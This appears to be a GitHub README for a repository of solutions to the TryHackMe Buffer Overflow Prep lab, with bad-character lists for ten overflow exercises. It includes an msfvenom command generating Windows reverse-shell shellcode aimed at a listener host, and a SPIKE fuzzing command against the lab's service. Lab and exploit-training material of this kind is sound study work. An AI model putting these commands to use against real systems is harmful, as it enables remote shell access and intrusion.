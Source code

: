 # THM_Buffer-Overflow-Prep

![](https://github.com/SxNade/THM_Buffer-Overflow-Prep/blob/main/thm.jpeg)

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee\xef**

# OVERFLOW 4

**Bad Chars:--> \x00\xa9\xcd\xd4**

# OVERFLOW 5

**Bad Chars:--> \x00\x16\x2f\xf4\xfd**

# OVERFLOW 6

**Bad Chars:--> \x00\x08\x2c\xad**

# OVERFLOW 7

**Bad Chars:--> \x00\x8c\xae\xbe\xfb**

               # Important Note

     → Our Fuzz script crashed the script at 1300 bytes but we see that the EIP register is still not reached or in other words still not Filled with  all A's which it ideally should be so we increase the buffer from 1300 to 1400 and this time it does fill EIP with 41414141 which is when we are good to Go :)


# OVERFLOW 8

**Bad Chars:--> \x00\x1d\x2e\xc7\xee**

# OVERFLOW 9

**Bad Chars:--> \x00\x04\x3e\x3f\xe1**



# OVERFLOW 10

**Bad Chars:--> \x00\xa0\xad\xbe\xde\xef**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**

